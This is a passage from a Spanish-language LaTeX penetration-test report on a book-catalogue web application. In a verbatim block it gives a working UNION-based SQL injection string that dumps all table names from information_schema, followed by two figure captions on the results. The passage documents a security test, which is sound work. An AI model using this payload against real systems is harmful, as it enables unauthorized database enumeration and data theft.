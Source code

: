 Acto seguido, intentamos verificar si es posible extraer las tablas por medio de una consulta. Normalmente, si el usuario no tuviese permisos, esto no podría ser posible.


\begin{verbatim}
libro de prueba 3' union select 'debo' as titulo, 'limpiar' as autor, 'todas' as edicion, 'las' as anio, (SELECT GROUP_CONCAT(table_name SEPARATOR '|') FROM information_schema.tables) as numeroCopias; -- "
\end{verbatim}
    
\begin{figure}
	\centering
	\includegraphics[width=.9\textwidth]{fragments/pentest/pen3.png}
    \caption{ Inyección SQL - Exploración }
\end{figure}

\begin{figure}
	\centering
	\includegraphics[width=.9\textwidth]{fragments/pentest/pen2.png}
    \caption{ Tablas de interés }
\end{figure}


